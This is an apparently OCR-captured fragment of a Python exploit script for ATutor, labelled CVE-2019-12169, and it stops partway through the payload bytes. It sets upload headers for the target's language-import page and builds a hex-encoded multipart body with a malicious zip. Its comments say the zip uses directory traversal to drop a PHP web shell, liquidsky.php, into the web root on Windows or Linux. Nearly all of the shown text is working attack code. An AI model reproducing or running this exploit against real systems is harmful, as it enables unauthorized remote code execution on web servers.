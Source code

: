
    # headers to upload zip
    headers = {
        "Accept-Encoding": "gzip, deflate",
        "Referer": "http://" + target + "/ATutor/mods/_core/languages/language_import.php",
        "Connection": "close",
        "Content-Type": "multipart/form-data; boundary=---------------------------CVE201912169",
    }

    # Note: This was successfully tested against a windows install however it should work with linux.
    # -----
    # This will drop a shell on c:\xampp\htdocs\liquidsky.php and or /var/www/html/liquidsky.php
    # using directory traversal.


    # php file payload
    data = ""
    data += "\x2d\x2d\x2d\x2d\x2d\x2d\x2d\x2d\x2d\x2d\x2d\x2d\x2d\x2d\x2d"
    data += "\x2d\x2d\x2d\x2d\x2d\x2d\x2d\x2d\x2d\x2d\x2d\x2d\x2d\x2d\x43"
    data += "\x56\x45\x32\x30\x31\x39\x31\x32\x31\x36\x39\x0d\x0a\x43\x6f"
    data += "\x6e\x74\x65\x6e\x74\x2d\x44\x69\x73\x70\x6f\x73\x69\x74\x69"
    data += "\x6f\x6e\x3a\x20\x66\x6f\x72\x6d\x2d\x64\x61\x74\x61\x3b\x20"
    data += "\x6e\x61\x6d\x65\x3d\x22\x66\x69\x6c\x65\x22\x3b\x20\x66\x69"
    data += "\x6c\x65\x6e\x61\x6d\x65\x3d\x22\x70\x6f\x63\x2e\x7a\x69\x70"
    data += "\x22\x0d\x0a\x43\x6f\x6e\x74\x65\x6e\x74\x2d\x54\x79\x70\x65"
    data += "\x3a\x20\x61\x70\x70\x6c\x69\x63\x61\x74\x69\x6f\x6e\x2f\x7a"
    data += "\x69\x70\x0d\x0a\x0d\x0a\x50\x4b\x03\x04\x14\x00\x00\x00\x08"
    data += "\x00\xa4\x00\xb8\x4e\xbb\xb9\x35\x2d\x6a\x00\x00\x00\x6a\x00"
    data += "\x00\x00\x2c\x00\x00\x00\x2e\x2e\x5c\x2e\x2e\x5c\x2e\x2e\x5c"
    data += "\x2e\x2e\x5c\x2e\x2e\x5c\x2e\x2e\x2f\x78\x61\x6d\x70\x70\x5c"
    data += "\x68\x74\x64\x6f\x63\x73\x5c\x6c\x69\x71\x75\x69\x64\x73\x6b"
    data += "\x79\x2e\x70\x68\x70\xb3\xb1\x2f\xc8\x28\x50\x48\x2d\x4b\xcc"
    data += "\xd1\x50\xb2\xb7\x53\xd2\x4b\x4a\x2c\x4e\x35\x33\x89\x4f\x49"
    data += "\x4d\xce\x4f\x49\xd5\x50\x72\x09\xcc\xf7\x02\x62\x8b\x00\x63"
    data += "\xa7\xfc\x64\x67\xa7\x9c\x48\xa3\x8c\x32\x4f\x0f\xa7\x8c\x64"
    data += "\x63\x3f\x83\x44\x0f\x2f\x43\x6f\xe7\xa0\xb4\x20\x83\xb0\xd0"
    data += "\xf0\xca\x94\xe2\xc8\x70\xd3\xbc\x94\x70\xb7\xbc\xa8\xe0\x94"
    data += "\x14\xef\x90\xe2\xf4\x80\x2a\x13\x3f\xe7\x74\x5b\x5b\x25\x4d"
    data += "\x4d\x6b\x05\x7b\x3b\x00\x50\x4b\x03\x04\x14\x00\x00\x00\x08"
    data += "\x00\xa4\x00\xb8\x4e\xbb\xb9\x35\x2d\x6a\x00\x00\x00\x6a\x00"
    data += "\x00\x00\x2c\x00\x00\x00\x2e\x2e\x2f\x2e\x2e\x2f\x2e\x2e\x2f"
    data += "\x2e\x2e\x2f\x2e\x2e\x2f\x2e\x2e\x2f\x76\x61\x72\x2f\x77\x77"
    data += "\x77\x2f\x68\x74\x6d\x6c\x2f\x6c\x69\x71\x75\x69\x64\x73\x6b"
    data += "\x79\x2e\x70\x68\x70\xb3\xb1\x2f\xc8\x28\x50\x48\x2d\x4b\xcc"
    data += "\xd1\x50\xb2\xb7\x53\xd2\x4b\x4a\x2c\x4e\x35\x33\x89\x4f\x49"
    data += "\x4d\xce\x4f\x49\xd5\x50\x72\x09\xcc\xf7\x02\x62\x8b\x00\x63"
    data += "\xa7\xfc\x64\x67\xa7\x9c\x48\xa3\x8c\x32\x4f\x0f\xa7\x8c\x64"
    data += "\x63\x3f\x83\x44\x0f\x2f\x43\x6f\xe7\xa0\xb4\x20\x83\xb0\xd0"
    data += "\xf0\xca\x94\xe2\xc8\x70\xd3\xbc\x94\x70\xb7\xbc\xa8\xe0\x94"
    data += "\x14\xef\x90\xe2\xf4\x80\x2a\x13\x3f\xe7\x74\x5b\x5b\x25\x4d"
    data += "\x4d\x6b\x05\x7b\x3b\x00\x50\x4b\x01\x02\x14\x03\x14\x00\x00"
    data += "\x00\x08\x00\xa4\x00\xb8\x4e\xbb\xb9\x35\x2d\x6a\x00\x00\x00"
    data += "\x6a\x00\x00\x00\x2c\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00"
    data += "\x00\x80\x01\x00\x00\x00\x00\x2e\x2e\x5c\x2e\x2e\x5c\x2e\x2e"